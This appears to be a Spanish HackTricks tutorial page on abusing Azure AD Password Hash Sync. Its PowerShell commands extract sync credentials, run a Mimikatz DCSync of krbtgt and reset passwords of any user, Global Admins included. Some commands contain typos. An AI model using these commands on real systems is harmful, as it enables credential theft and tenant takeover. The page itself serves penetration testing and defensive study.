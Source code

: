 # Az - PHS - Sincronización de Hash de Contraseña

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

La **sincronización de hash de contraseña** es uno de los métodos de inicio de sesión utilizados para lograr una identidad híbrida. **Azure AD Connect** sincroniza un hash, del hash, de la contraseña de un usuario desde una instancia de Active Directory local a una instancia de Azure AD basada en la nube.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es el **método más común** utilizado por las empresas para sincronizar un AD local con Azure AD.

Todos los **usuarios** y un **hash de los hashes de las contraseñas** se sincronizan desde el local a Azure AD. Sin embargo, las **contraseñas en texto claro** o los **hashes originales** no se envían a Azure AD.
Además, los grupos de seguridad **integrados** (como los administradores de dominio...) **no se sincronizan** con Azure AD.

La **sincronización de hashes** ocurre cada **2 minutos**. Sin embargo, por defecto, la **expiración de la contraseña** y la **expiración de la cuenta** **no se sincronizan** en Azure AD. Por lo tanto, un usuario cuya **contraseña local ha expirado** (no cambiada) puede continuar **accediendo a recursos de Azure** utilizando la contraseña antigua.

Cuando un usuario local quiere acceder a un recurso de Azure, la **autenticación se lleva a cabo en Azure AD**.

**PHS** es necesario para características como **Protección de Identidad** y Servicios de Dominio de AAD.

## Pivoteo

Cuando se configura PHS, se **crean automáticamente algunas cuentas privilegiadas**:

* La cuenta **`MSOL_<installationID>`** se crea automáticamente en AD local. A esta cuenta se le otorga un rol de **Cuentas de Sincronización de Directorio** (ver [documentación](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) lo que significa que tiene **permisos de replicación (DCSync) en el AD local**.
* Se crea una cuenta **`Sync_<nombre del servidor ADConnect local>_installationID`** en Azure AD. Esta cuenta puede **restablecer la contraseña de CUALQUIER usuario** (sincronizado o solo en la nube) en Azure AD.

Las contraseñas de las dos cuentas privilegiadas anteriores se **almacenan en un servidor SQL** en el servidor donde **está instalado Azure AD Connect.** Los administradores pueden extraer las contraseñas de esos usuarios privilegiados en texto claro.\
La base de datos se encuentra en `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es posible extraer la configuración de una de las tablas, siendo una encriptada:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

La **configuración encriptada** está encriptada con **DPAPI** y contiene las **contraseñas del usuario `MSOL_*`** en AD local y la contraseña de **Sync\_\*** en AzureAD. Por lo tanto, comprometiendo estas es posible escalar privilegios al AD y a AzureAD.

Puedes encontrar una [visión completa de cómo se almacenan y descifran estas credenciales en esta charla](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrando el **servidor de Azure AD connect**

Si el **servidor donde está instalado Azure AD connect** está unido al dominio (recomendado en la documentación), es posible encontrarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Abusando de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
También puedes usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obtener estas credenciales.
{% endhint %}

### Abusando de Sync\_\*

Comprometer la cuenta **`Sync_*`** permite **restablecer la contraseña** de cualquier usuario (incluidos los Administradores Globales)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
También es posible **modificar las contraseñas de solo los usuarios en la nube** (incluso si eso es inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
También es posible volcar la contraseña de este usuario.

{% hint style="danger" %}
Otra opción sería **asignar permisos privilegiados a un principal de servicio**, lo cual el usuario **Sync** tiene **permisos** para hacer, y luego **acceder a ese principal de servicio** como una forma de escalada de privilegios.
{% endhint %}

### Seamless SSO

Es posible usar Seamless SSO con PHS, lo cual es vulnerable a otros abusos. Consulta en:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
